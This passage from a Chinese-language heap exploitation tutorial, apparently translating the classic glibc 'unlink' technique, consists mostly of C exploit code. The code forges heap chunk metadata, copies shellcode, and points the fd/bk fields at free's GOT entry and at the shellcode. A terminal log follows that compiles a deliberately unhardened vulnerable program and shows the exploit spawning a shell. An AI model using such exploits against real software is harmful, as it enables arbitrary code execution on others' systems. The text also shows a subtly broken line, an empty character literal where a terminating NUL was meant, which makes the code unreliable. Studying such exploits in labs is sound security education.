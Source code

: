 ```c
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the fd_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* Copy the shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* Padding- 16 bytes for prev_size,size,fd and bk of second chunk. 16 bytes for fd,bk,fd_nextsize,bk_nextsize 
        of first chunk */
        memset( p, 'B', (680 - 4*4) - (4*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 4*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk. Just make sure its an even number ie) its prev_inuse bit is unset */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk. By setting size to -4, we trick glibc malloc to unlink second chunk.*/
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk. It should point to free - 12. -12 is required since unlink function
        would do + 12 (FD->bk). This helps to overwrite the GOT entry of free with the address we have overwritten in 
        second chunk's bk field (see below) */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk. It should point to shell code address.*/
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
        *p = '';

        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

执行上述程序会派生新的 shell。

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$
```
